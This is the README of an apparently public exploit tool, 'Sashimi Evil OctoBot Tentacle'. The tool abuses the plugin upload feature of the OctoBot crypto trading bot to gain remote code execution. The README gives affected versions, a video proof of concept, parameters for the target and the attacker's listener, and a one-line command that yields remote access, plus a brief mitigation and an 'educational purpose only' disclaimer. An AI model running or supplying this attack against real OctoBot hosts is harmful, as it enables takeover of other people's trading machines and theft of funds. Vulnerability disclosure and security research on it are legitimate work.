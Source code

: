 
# Sashimi Evil OctoBot Tentacle

Sashimi Evil OctoBot Tentacle is a python script that exploits a vulnerability that lies in the Tentacles upload functionality of the cryptocurrency trading bot [OctoBot](https://octobot.online/) which is designed to be easy to use and customizable. Indeed, this open source trading bot has the particularity of offering to theirs users the possibility to upload their own trading algorithms.

Sashimi Evil OctoBot Tentacle takes advantage of this feature to upload a malicious crafted package that leads to a remote code execution.

![Sahimi Evil OctoBot Tentacle](https://i.ibb.co/M26vLMM/Sashimi-octobot-killer.png)

### Affected versions
All OctoBot  versions until the latest version (0.4.3) are vulnerable.
However, this exploit will work from version 0.4.0b3 until version 0.4.3.

### Proof of concept
(PoC Tested on Octobot 0.4.0b10)

[![Video POC Sashimi OctoBot Vulnerability](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=okL0azY1BE4)


### Requirement

* Python 3 (Must already have it if you are OctoBot user :D)
* An OctoBot target host platform. 

### How to use
This script is very simple to use only needs 4 parameters.
* `--RHOST`:  Refers to the IP of the target machine. (OctoBot IP address or hostname)
* `--RPORT`: Refers to the PORT of the target machine. (OctoBot use the port 5001 by default)
* `--LHOST` : Refers to the IP of your machine. (Can be local or external, depend who you are targeting :)
* `--LPORT`: Refers to the open port of your machine. (Must have an open port on your machine.)

Then the command is as follow:
```bash
python3 sashimi.py --RHOST TARGET_IP --RPORT TARGET_PORT --LHOST YOUR_IP --LPORT YOUR_OPEN_PORT
```
Be patient for around 3 min, the time to download, create and upload the malicious Tentacle package, and you should have a remote access to the machine. That's it!

### Mitigation
To protect against this attack, set a password in your OctoBot platform and/or add an .htpasswd.

### Note
FOR EDUCATIONAL PURPOSE ONLY.

